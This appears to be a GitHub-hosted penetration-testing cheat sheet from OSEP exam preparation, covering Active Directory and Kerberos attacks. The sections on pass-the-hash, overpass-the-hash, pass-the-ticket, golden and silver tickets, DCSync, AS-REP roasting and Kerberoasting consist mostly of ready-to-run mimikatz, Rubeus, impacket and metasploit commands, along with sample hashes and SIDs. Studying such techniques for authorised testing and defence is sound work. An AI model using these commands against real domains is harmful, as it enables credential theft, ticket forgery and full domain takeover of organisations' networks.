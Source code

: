 (Although the techniques explained here aren't teached in the OSEP, I found them pretty useful during my OSEP exam & labs, learning and researching
about them also helped me improve my knowlegde of Active Directory which is always useful)

**PASS THE HASH:**

The pass-the-hash techinque allows an attacker to authenticate to remote systems using the user NTLM hash(the static part, also known as NT hash). 
Note that the pass-the-hash technique only applies to Windows/NTLM authentication and not to Kerberos authentication.

There are lots of tools that support pass-the-hash. For example all the impacket suite supports it, xfreerdp also does, mimikatz also does, and the
list keeps going on...

Passing the hash from bare bones *nix systems using [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/tree/master).

**OVERPASS THE HASH:**

Overpass the hash, presented in the [blackhat](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf). This technique allows an attacker to get a TGT using only the NTLM hash of the user. 

We can for example use overpass the hash through [mimikatz](https://github.com/gentilkiwi/mimikatz):

```
1. C:\> .\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

2. mimikatz # sekurlsa::pth /user:user1 /domain:contoso.com /ntlm:<ntlm_hash> /run:PowerShell.exe
```

Once we have the new powershell session, we can authenticate to any AD resource to obtain a TGT, here's an example:

```
PS C:\> klist  -> no TGT for the user1

PS C:\> net use \\dc01.contoso.com

PS C:\> klist -> TGT for the user1
```

Alternatively, you can use this tools from Linux to get a TGT in a .ccache file:

```
~# impacket-getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>

~# impacket-getTGT.py <domain_name>/<user_name> -aesKey <aes_key>

~# impacket-python getTGT.py <domain_name>/<user_name>:[password]
```

**PASS THE TICKET:**

The pass-the-ticket technique abuses the TGS, which can be exported and injected somewhere else.

```
Listing tickets:

mimikatz # kerberos::list

C:\> .\Rubeus.exe dump

Exporting all tickets(TGTs and TGSs):

mimikatz # sekurlsa::tickets /export   

C:\> [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>")) -> from base64 to .kirbi

Injecting some ticket into memory:

mimikatz # kerberos::ptt 'C:\ticket.kirbi'

C:\> .\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

*When trying to export a usable TGT for our current user, this requieres elevation in the system*

However with the "tgtdeleg" Rubeus function we can aviod the elevation and obtain a fully working TGT for our current user:

```
C:\> Rubeus.exe tgtdeleg
```

Although TGTs on Windows are exported as .kirbi, and on Linux as .ccache. We can use the impacket [ticketConverter.py](https://github.com/fortra/impacket/blob/master/examples/ticketConverter.py) to convert a .kirbi to a .ccache, or a .ccache to a .kirbi.

```
From .ccache to .kirbi
~# python ticket_converter.py trike.ccache trike.kirbi

From .kirbi to .ccache
~# python ticket_converter.py velociraptor.kirbi velociraptor.ccache
```

Alternatively you can use this metasploit module [auxiliary/admin/kerberos/ticket_converter](https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/ticket_converter.html).

**GOLDEN TICKETS:**

With golden tickets, we can create TGTs for any domain resource that we want, and stating the groups we want. However to execute this attack we need the "krbtgt" domain account NTLM hash/password. Note that this attack is mostly used when you are already Domain Admin rather than trying to become one.

Now, armed with the "krbtgt" NTLM hash, we can proceed and craft our golden ticket with mimikatz:

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:<our_sid_without_the_rid_part> /krbtgt:<ntlm_hash_of_krbtgt> /ptt
(mimikatz by default will assing us the RID of 500, however we can set a custom one via the "/id" parameter)

mimikatz # misc::cmd -> launcing a new cmd with our new TGT
```

As an alternative we can create golden tickets from Linux using [impacket-ticketer](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)

```
~# impacket-ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

~# impacket-ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>
```
**SILVER TICKETS:**

This technique consists of crafting a TGS with the password hash of the SPN. The interesting part about this TGS, is that we can modify our permissions(such as user id or group id) stating that we are local administrator/domain admin/etc on the server where the SPN we have compromised is running its service. 

In our example, our compromimsed SPN will we "svc_mssql", its NTLM password hash will be this "1BF1DE6AEDB12AE1E548210EDBF3511E", its FQDN will be "MSSQL/server.contoso.com" and the SID of the trike user will be "S-1-5-21-2602875597-2787548311-2599479668-1204"

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:S-1-5-21-2602875597-2787548311-2599479668 /target:server.contoso.com /service:MSSQL /rc4:1BF1DE6AEDB12AE1E548210EDBF3511E /ptt
```
(note that in the sid parameter we didn't specify the RID of the trike user, since mimikatz will automatically set our RID to 500 which equals to both local administrator and domain admin)

Alternatively we can use impacket-ticketer from Linux to create silver tickets:

```
~# impacket-ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

~# impacket-ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
```

**DOMAIN CONTROLLER SYNCHRONIZATION:**

This is an alternative way to get any domain user hash without dumping the entire NTDS.dit database. For this reason DcSync is way stealthier. 

This attack works because the domain controller recieving the request doesn't verify that the request came from a know domain controller, only that the SID has the appropiate permissions to do so. For this reason, if a domain admin sends a request to a domain controller, this will likely succeed. 

We can perform this attack with mimikatz:

```
mimikatz # lsadump::dcsync /user:Administrator

mimikatz # lsadump::dcsync /user:krbtgt
```

**AS-REP ROASTING ATTACK:**

This attack works for domain users that have the "DONT_REQ_PREAUTH" property *useraccountcontrol* set. 
```
# From Rubeus
C:\> .\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

# Check ASREPRoast for all domain users (credentials required)
~# impacket-GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]>

# Check ASREPRoast for a list of users (no credentials required)
~# impacket-GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]>

# Now we will attempt to crack the hashes obtained
~# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**KERBEROASTING ATTACK:**

The essence of this attack is to crack the encrypted key which was used to generate the TGS from where we extract the encrypted key to crack.

You need valid domain credentials to perform this attack.

```
~# impacket-getuserspns -request contoso.com/trike:'DevT$st34'@192.168.1.1

msf > use auxiliary/gather/get_user_spns
```
For Windows exploitation(manual and automatic) review this link: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
